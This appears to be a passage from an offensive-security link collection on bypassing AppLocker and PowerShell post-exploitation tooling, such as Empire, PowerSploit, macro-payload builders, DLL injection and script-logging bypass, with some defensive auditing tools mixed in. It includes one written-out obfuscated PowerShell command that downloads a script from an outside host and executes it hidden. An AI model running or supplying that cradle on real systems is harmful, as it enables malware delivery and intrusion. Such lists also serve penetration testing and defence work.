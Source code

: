 ### Bypassing AppLocker
*  How to Bypass Windows AppLocker http://www.hacking-tutorial.com/hacking-tutorial/how-to-bypass-windows-applocker/

### PowerShell's Toolbox
* Empire is a PowerShell and Python post-exploitation agent 
	* [GitHub](https://github.com/EmpireProject/Empire)
	* [Docker](https://hub.docker.com/r/empireproject/empire/)
	* [GUI Empire client application](https://github.com/EmpireProject/Empire-GUI)
* PowerSploit - A PowerShell Post-Exploitation Framework https://github.com/PowerShellMafia/PowerSploit/
* Sharpire - An implimentation of the Empire Agent in C# https://github.com/0xbadjuju/Sharpire
* How To: Empire's Cross Platform Office Macro : https://www.blackhillsinfosec.com/empires-cross-platform-office-macro/ / https://medium.com/@malcomvetter/multi-platform-macro-phishing-payloads-3b688e8eff68
* POC Highlighting Obfuscation Techniques used by FIN threat actors based on cmd.exe's replace functionality and cmd.exe/powershell.exe's stdin command invocation capabilities https://github.com/danielbohannon/Out-FINcodedCommand
* PowerShell Download and Execute
`"c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe" -NoP -Nonl -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('http:'+[char]0x2F+[char]0x2F+'monurldelamorkitu.com'+[char]0x2F+'xxx.php', \"$env.temp\xxx.jse\"); Invoke-Item \"$env.temp\xxx.jse\""`
Le fichier téléchargé est du CSrcipt ou du WScript
* PowerShell ScriptBlock Logging Bypass https://www.cobbr.io/ScriptBlock-Logging-Bypass.html + https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407
* PowerShell Remote Download Cradle Generator & Obfuscator https://github.com/danielbohannon/Invoke-CradleCrafter
* There are great tools and resources online to accomplish most any task in PowerShell, sometimes however, there is a need to script together a util for a specific purpose or to bridge an ontological gap. This is a collection of PowerShell utilities I put together either for fun or because I had a narrow application in mind. https://github.com/FuzzySecurity/PowerShell-Suite
* Empire without PowerShell.exe https://bneg.io/2017/07/26/empire-without-powershell-exe/
* PowerShell Obfuscation Detection Framework https://github.com/danielbohannon/Revoke-Obfuscation
* WINspect - Powershell-based Windows Security Auditing Toolbox http://www.kitploit.com/2017/08/winspect-powershell-based-windows.html / https://github.com/A-mIn3/WINspect
* A Unix Person's Guide to PowerShell - https://www.gitbook.com/book/devops-collective-inc/a-unix-person-s-guide-to-powershell/details
*  Posh-SSH - PowerShell Module for automating tasks on remote systems using SSH http://www.kitploit.com/2017/08/posh-ssh-powershell-module-for.html / https://github.com/darkoperator/Posh-SSH
* Quickpost: Metasploit PowerShell BASE64 Commands https://blog.didierstevens.com/2017/08/26/quickpost-metasploit-powershell-base64-commands/
* Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18. https://www.trustedsec.com / https://github.com/trustedsec/unicorn
* Luckystrike - A PowerShell based utility for the creation of malicious Office macro documents http://www.kitploit.com/2017/09/luckystrike-powershell-based-utility.html https://github.com/curi0usJack/luckystrike
* Run PowerShell with dlls only. Does not require access to powershell.exe as it uses powershell automation dlls. https://github.com/p3nt4/PowerShdll/tree/master/dll
* Siofra is a tool designed to identify and exploit DLL hijacking vulnerabilities in Windows programs. https://github.com/Cybereason/siofra
* Stage-RemoteDll is a small function to demonstrate various Dll injection techniques (NtCreateThreadEx / QueueUserAPC / SetThreadContext / SetWindowsHookEx) on 32 and	64 bit architectures. While I have done some input validation & cleanup, this is mostly POC code. Note also that these techniques can easily be repurposed to directly execute shellcode in the remote process. https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Stage-RemoteDll.ps1
* Use CLR to inject all the .NET apps https://github.com/3gstudent/CLR-Injection
* A command shell wrapper using only WMI for Microsoft Windows https://github.com/nccgroup/WMIcmd